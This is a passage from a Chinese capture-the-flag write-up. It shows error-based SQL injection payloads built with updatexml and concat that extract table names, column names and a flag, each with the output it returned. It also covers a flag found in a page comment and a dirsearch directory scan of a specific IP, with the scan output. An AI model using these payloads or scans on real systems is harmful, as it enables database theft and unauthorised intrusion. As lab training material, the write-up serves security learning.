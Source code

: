 提交得到

```Sql
XPATH syntax error: '~flag'
```

很显然，这就是flag所在的表

**3. 查询列名**

```sql
1 and updatexml(1,concat(0x7e,(mid((select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),1,31))),1)
```

提交得到

```sql
XPATH syntax error: '~flag'
```

也很显然，flag肯定在这一列

**4. 查询字段**

```sql
1 and updatexml(1,concat(0x7e,(mid((select flag from flag limit 0,1),1,31))),1)
```

提交得到

```sql
XPATH syntax error: '~abcd1234'
```

根据题目要求，flag{abcd1234}

### Find me

查看源代码

在注释中找到flag:{This_is_s0_simpl3}

### http呀

这题想了好久，然而毫无思路，于是最终拿去扫了一下，这里我用的dirsearch，也可以用御剑

```
qiqi@qiqi-Mac ~/dirsearch> python3 dirsearch.py -u "http://39.107.92.230/web/web2" -e * -t 60

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: CHANGELOG.md | Threads: 60 | Wordlist size: 6029

Error Log: /Users/qiqi/dirsearch/logs/errors-18-02-02_21-46-54.log

Target: http://39.107.92.230/web/web2

[21:46:54] Starting:
[21:47:04] 200 -  315B  - /web/web2/index.html
[21:47:04] 200 -  405B  - /web/web2/index.php
[21:47:04] 200 -  405B  - /web/web2/index.php-bak
[21:47:04] 200 -  405B  - /web/web2/index.php.bak
[21:47:04] 200 -  405B  - /web/web2/index.php/login/
[21:47:04] 200 -  405B  - /web/web2/index.php3
[21:47:04] 200 -  405B  - /web/web2/index.php5
[21:47:04] 200 -  405B  - /web/web2/index.php~
[21:47:04] 200 -  405B  - /web/web2/index.php4
```
